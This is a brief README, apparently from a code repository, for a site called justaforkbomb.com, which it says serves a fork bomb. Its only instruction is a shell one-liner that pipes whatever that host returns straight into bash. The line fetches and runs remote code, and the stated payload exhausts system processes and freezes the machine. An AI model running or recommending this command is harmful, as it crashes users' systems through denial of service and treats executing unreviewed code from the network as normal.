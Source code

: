 # justaforkbomb.com
It's just a fork bomb.

## How to use it:

In a shell:

```bash
curl justaforkbomb.com | bash
```
